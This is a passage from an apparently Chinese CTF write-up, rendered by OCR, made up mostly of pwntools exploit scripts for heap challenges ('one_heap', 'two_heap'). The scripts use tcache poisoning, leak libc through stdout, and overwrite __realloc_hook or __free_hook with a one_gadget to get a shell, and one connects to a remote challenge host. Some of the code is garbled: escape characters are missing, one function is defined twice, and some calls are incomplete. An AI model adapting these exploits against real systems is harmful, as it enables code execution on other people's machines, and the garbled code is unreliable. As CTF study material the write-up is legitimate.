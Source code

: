 ```
def new0(size,content):
    p.recvuntil("Your choice:")
    p.sendline("1")
    p.recvuntil("Input the size:")
    p.sendline(str(size))
    p.recvuntil("Input the content:")
    p.send(content)
new(0x60,"aaa")
remove()
remove()
new(0x60,"x20x60")
new(0x60,"b")
raw_input()
new(0x60,"x60x07")
pay = p64(0xfbad1880) + p64(0)*3 + "x00"
new(0x60,pay)
libc_addr = u64(p.recvuntil("x7f")[8:8+6].ljust(8,"x00"))-0x3ed8b0
print hex(libc_addr)
malloc_hook = a.symbols["__malloc_hook"]+libc_addr
relloc_hook = a.symbols["__realloc_hook"]+libc_addr
print hex(malloc_hook)
one = 0x4f2c5+libc_addr

print one
new(0x50,"a")
remove()
remove()
new(0x50,p64(relloc_hook))
new(0x50,"peanuts")
new(0x50,p64(one)+p64(libc_addr+a.sym['realloc']+0xe))
print hex(one)
new(0x30,"b")
p.interactive()
```

### <a class="reference-link" name="two_heap"></a>two_heap

漏洞点和one heap一样，同样是有tache的版本，

先绕过size的检查利用`0x0,0x8,0x10,0x18`进行绕过，

然后利用printf_chk可以用`a`来leak的特性算出libc

然后就可以attack free_hook然后通过`free("/bin/sh")` getshell。

```
from pwn import*
context.log_level = "debug"
#p = process("./two_heap",env=`{`"LD_PRELOAD":"./libc-2.26.so"`}`)
a = ELF("./libc-2.26.so")
p = remote("47.104.89.129",10002)
#gdb.attach(p)#,"b *0x5555555554a0")
def new(size,content):
    p.recvuntil("Your choice:")
    p.sendline("1")
    p.recvuntil("Input the size:")
    p.sendline(str(size))
    p.recvuntil("Input the note:")
    p.sendline(content)
def remove(idx):
    p.recvuntil("Your choice:")
    p.sendline("2")
    p.recvuntil("Input the index:")
    p.sendline(str(idx))
def new0(size,content):
```